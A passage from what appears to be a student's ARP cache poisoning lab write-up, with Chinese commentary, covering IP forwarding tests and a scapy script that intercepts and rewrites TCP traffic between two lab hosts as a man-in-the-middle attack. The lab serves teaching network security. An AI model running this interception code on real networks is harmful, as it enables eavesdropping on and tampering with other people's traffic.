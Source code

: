 ```python
pkt = E/A
sendp(pkt)
```

### Step 2 (Testing).

```
# sysctl net.ipv4.ip_forward=0
```

A、B之间起初不能ping通，但在几次失败的ping request后，重新发送了ARP request，A、B的ARP表被修正，立即就能ping通了。这个过程可以通过Wireshark抓包的结果对比验证。

![image-20220406165303775](ARP Cache Poisoning.assets/image-20220406165303775.png)

![image-20220406165109305](ARP Cache Poisoning.assets/image-20220406165109305.png)



### Step 3 (Turn on IP forwarding). 

Now we turn on the IP forwarding on Host M, so it will forward the packets between A and B. Please run the following command and repeat Step 2. Please describe your observation.


```
# sysctl net.ipv4.ip_forward=1
```

尽管能ping通，但由于M不知道需要伪装成A/B，所以会发送ICMP redirect包。

![image-20220406165718084](ARP Cache Poisoning.assets/image-20220406165718084.png)

![image-20220406165654183](ARP Cache Poisoning.assets/image-20220406165654183.png)

### Step 4 (Launch the MITM attack).

```python
#!/usr/bin/env python3
from scapy.all import *
IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
	if pkt[IP].src == IP_A and pkt[IP].dst == IP_B and pkt[Ether].dst == MAC_M:
	# Create a new packet based on the captured one.
	# 1) We need to delete the checksum in the IP & TCP headers,
	# because our modification will make them invalid.
	# Scapy will recalculate them if these fields are missing.
	# 2) We also delete the original TCP payload.
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)
		#################################################################
		# Construct the new payload based on the old payload.
		# Students need to implement this part.
		if pkt[TCP].payload:
			data = pkt[TCP].payload.load # The original payload data
			data_len = len(data)
			newdata = 'Z' * data_len
			send(newpkt/newdata)
		else:
			send(newpkt)
```